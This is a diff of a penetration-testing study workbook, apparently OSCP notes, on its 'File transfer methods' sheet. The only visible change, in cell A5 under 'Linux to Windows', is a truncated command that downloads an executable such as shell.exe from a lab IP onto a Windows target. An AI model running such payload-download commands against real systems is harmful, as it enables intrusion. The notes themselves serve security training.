

Before and after one commit to supriti01/oscp, an Excel workbook: Book1.xlsx, sheet File transfer methods, drawn as a sheet; values as stored, in another font and other column widths than the file's, no borders; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/Book1.xlsx (sheet File transfer methods)
+++ b/Book1.xlsx (sheet File transfer methods)
-A5 (Linux to Windows): …-split -f http://10.10.14.22/exploit.exe exploitee.exe
+A5 (Linux to Windows): …-split -f http://10.10.14.15/shell.exe
```
Also changed, not shown: sheet HTB Boxes, sheet Methodology, sheet SQL Injections, sheet Linux Priv escalation, sheet Password brureforce technique, other sheet tabs.
